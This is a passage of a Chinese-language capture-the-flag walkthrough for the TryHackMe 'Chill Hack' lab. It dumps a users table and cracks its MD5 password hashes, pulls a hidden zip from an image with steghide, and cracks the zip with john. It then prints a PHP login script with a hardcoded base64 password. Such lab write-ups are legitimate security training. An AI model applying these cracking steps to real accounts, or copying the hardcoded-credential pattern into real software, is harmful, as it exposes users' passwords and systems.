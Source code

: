 mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
```

两个md5解密出来分别是：
>Anurodh ：masterpassword
>Apaar ：dontaskdonttell


然而这两个并不是ssh密码。。。


我们把images里面的两个文件下载到本地，用steghide分离出一个隐藏文件
```
└─# steghide extract -sf hacker-with-laptop_23-2147985341.jpg                                                                                                                                                                          127 ⨯
Enter passphrase: 
wrote extracted data to "backup.zip".
```

用zip2john把文件转成john可以读取的信息，然后再用john破解这个zip文件
```
┌──(root💀kali)-[~/tryhackme/chillhack]
└─# zip2john backup.zip >passwd.hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3

┌──(root💀kali)-[~/tryhackme/chillhack]
└─# john passwd.hash passwd.hash --wordlist=/usr/share/wordlists/rockyou.txt                                                                                                                                                             1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)
1g 0:00:00:00 DONE (2021-10-27 13:06) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s total90..cocoliso
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```


解压加密zip得到一个php文件
```
<?php
        if(isset($_POST['submit']))
	{
		$email = $_POST["email"];
		$password = $_POST["password"];
		if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")
		{ 
			$random = rand(1000,9999);?><br><br><br>
			<form method="POST">
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>